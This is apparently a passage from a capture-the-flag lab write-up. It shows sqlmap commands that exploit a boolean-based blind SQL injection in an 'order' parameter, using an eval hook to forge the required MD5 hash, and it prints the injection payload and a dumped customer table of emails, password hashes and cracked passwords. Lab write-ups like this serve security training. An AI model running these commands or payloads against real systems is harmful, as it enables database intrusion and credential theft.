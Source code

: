 Testing sql injection with sqlmap and Found **boolean-based blind** sql injection.
```bash
sqlmap --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dbms=mysql --threads=10 -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b"
#... [snip] ...
---
Parameter: order (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: order=(SELECT (CASE WHEN (7143=7143) THEN 'id desc' ELSE (SELECT 8447 UNION SELECT 3809) END))&h=a1b30d31d344a5a4e41e8496ccbdd26b
---
#... [snip] ...
```

After enumerating dbms, Dumping user credentials
```bash
sqlmap --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dbms=mysql --threads=10 -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b" -D cleaner -T customers --dump
#... [snip] ...
Database: cleaner                                                                                                                                                                                                                            
Table: customers
[29 entries]
+----+------------------------------+----------------------------------------------+----------------------+
| id | login                        | password                                     | customer_name        |
+----+------------------------------+----------------------------------------------+----------------------+
| 1  | vikki.solomon@throwaway.mail | 7c6a180b36896a0a8c02787eeafb0e4c (password1) | Vikki Solomon        |
| 2  | nstone@trashbin.mail         | 6cb75f652a9b52798eb6cf2201057c73 (password2) | Neave Stone          |
| 3  | bmceachern7@discovery.moc    | e10adc3949ba59abbe56e057f20f883e (123456)    | Bertie McEachern     |
| 4  | jkleiser8@google.com.xy      | 827ccb0eea8a706c4c34a16891f84e7b (12345)     | Jordana Kleiser      |
| 5  | mchasemore9@sitemeter.moc    | 25f9e794323b453885f5181f1b624d0b (123456789) | Mariellen Chasemore  |
| 6  | gdornina@marriott.moc        | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  | Gwyneth Dornin       |
| 7  | itootellb@forbes.moc         | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)  | Israel Tootell       |
| 8  | kmanghamc@state.tx.su        | 8afa847f50a716e64932d995c8e7435a (princess)  | Karon Mangham        |
| 9  | jblinded@bing.moc            | fcea920f7412b5da7be0cf42b8c93759 (1234567)   | Janifer Blinde       |
| 10 | llenchenkoe@macromedia.moc   | f806fc5a2a0d5ba2471600758452799c (rockyou)   | Laurens Lenchenko    |
| 11 | aaustinf@booking.moc         | 25d55ad283aa400af464c76d713c07ad (12345678)  | Andreana Austin      |
| 12 | afeldmesserg@ameblo.pj       | e99a18c428cb38d5f260853678922e03 (abc123)    | Arnold Feldmesser    |
| 13 | ahuntarh@seattletimes.moc    | fc63f87c08d505264caba37514cd0cfd (nicole)    | Adella Huntar        |
| 14 | talelsandrovichi@tamu.ude    | aa47f8215c6f30a0dcdb2a36a9f4168e (daniel)    | Trudi Alelsandrovich |
| 15 | ishayj@dmoz.gro              | 67881381dbc68d4761230131ae0008f7 (babygirl)  | Ivy Shay             |
| 16 | acallabyk@un.gro             | d0763edaa9d9bd2a9516280e9044d885 (monkey)    | Alys Callaby         |
```